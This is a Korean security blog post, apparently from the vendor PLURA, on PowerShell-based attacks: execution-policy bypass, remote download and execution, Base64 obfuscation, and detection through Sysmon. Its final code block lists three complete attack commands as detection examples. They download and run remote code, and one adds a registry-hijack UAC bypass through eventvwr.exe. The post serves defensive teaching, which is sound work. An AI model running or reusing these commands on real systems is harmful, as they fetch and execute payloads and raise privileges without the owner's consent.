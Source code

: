 ```yaml
---
date: 2020-05-12T00:03:00
description: 
featured_image: 
tags: ["PowerShell", "악성코드", "웹 해킹", "보안 취약점", "PLURA"]
title: "PowerShell을 이용한 공격"
---
```


![PowerShell 공격](https://github.com/user-attachments/assets/a90db7c2-5c10-4f7e-b9d4-20c828b5a299)

## PowerShell

PowerShell은 시스템 관리 및 자동화를 목적으로 설계된 명령줄 셸 및 스크립팅 언어입니다.  
Windows Vista 이후 기본 탑재되었으며, 관리 도구로 유용한 만큼 공격자들에게도 자주 사용되고 있습니다.

---

### 1. 실행 정책 (Execution Policy)

Microsoft는 기본적으로 PowerShell 스크립트 실행을 제한합니다.  
그러나 공격자는 이를 쉽게 우회할 수 있습니다.  

**우회 플래그 예시:**  
- `-ExecutionPolicy` 또는 `-EP Bypass`  
- `-ExecutionPolicy` 또는 `-EP Unrestricted`  
- `-noprofile` 또는 `-nop`  

*Profile Bypass: 각 세션이 시작될 때 PowerShell을 구성하기 위해 설정된 Profile도 무시할 수 있습니다.*

---

### 2. 다운로드

PowerShell 클래스 및 메소드를 사용하여 악성 파일을 다운로드 및 실행할 수 있습니다.  

자주 사용되는 명령어:  
- **New-Object**: .NET Framework의 인스턴스를 생성합니다.  
- **System.Net.WebClient**: 원격 리소스와 데이터 송수신에 사용됩니다.  
- **DownloadString**: 원격지에서 내용을 메모리 버퍼로 다운로드합니다.  
- **DownloadFile**: 원격지에서 로컬 파일로 콘텐츠를 다운로드합니다.  
- **IEX (Invoke-Expression)**: 명령을 실행합니다.  
- **ICM (Invoke-Command)**: 로컬 및 원격 컴퓨터에서 명령을 실행합니다.

---

### 3. 인코딩

- PowerShell 명령어를 숨기기 위해 Base64 인코딩이 자주 사용됩니다.  
- 인코딩된 명령어는 명령줄 길이가 비정상적으로 길어질 수 있습니다.  
- 500자 이상의 긴 명령어는 의심해볼 필요가 있습니다.

---

### 4. DLL 호출

- 의심스러운 DLL 호출 조합을 찾아야 악의적 행동을 탐지할 수 있습니다.  
- PowerShell.exe 또는 PowerShell_ISE.exe 이외의 실행 파일에서 아래 DLL 호출이 발생하는지 모니터링하세요.  
  - `System.Management.Automation.Dll`  
  - `System.Management.Automation.ni.Dll`  
  - `System.Reflection.Dll`  

*Sysmon ID 7 (ImageLoaded)을 활용해 확인할 수 있습니다.*

---

### 5. PLURA에서 PowerShell 악성 행위 탐지

**Sysmon 설치 필수**  
- [설치 가이드 보기](https://docs.plura.io/ko/agents/edr/windows/sysmon)

![PLURA 탐지](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

---

#### 악성 파일 실행 탐지 예시

PowerShell 우회 및 공격자 서버에서 파일 다운로드 행위 발생:  

![PowerShell 악성 실행](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**PLURA 필터 탐지**  
PLURA는 Sysmon을 활용하여 아래와 같은 악성 명령을 탐지합니다:

```bash
powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe
```

## 참고

- [SANS 자료](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf)  
- [Broadcom 보고서](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)  
- [AhnLab 기사](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651)  

---

## 관련 기사, 보안뉴스

- [보안뉴스 보기](https://bit.ly/2V99SLF)

